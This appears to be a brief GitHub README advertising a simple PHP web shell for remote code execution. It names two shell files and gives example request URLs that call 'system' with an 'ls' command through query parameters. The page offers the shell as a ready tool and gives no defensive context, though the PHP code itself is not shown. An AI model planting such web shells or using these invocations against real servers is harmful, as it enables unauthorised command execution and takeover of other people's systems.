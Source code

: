 # A Simple Web Shell used for Remote Code Execution

* `shell1.php & You can execute it like "shell1.php?_=system&__=ls"`

* `shell2.php & You can execute it like "shell2.php?0=system&1=ls"`
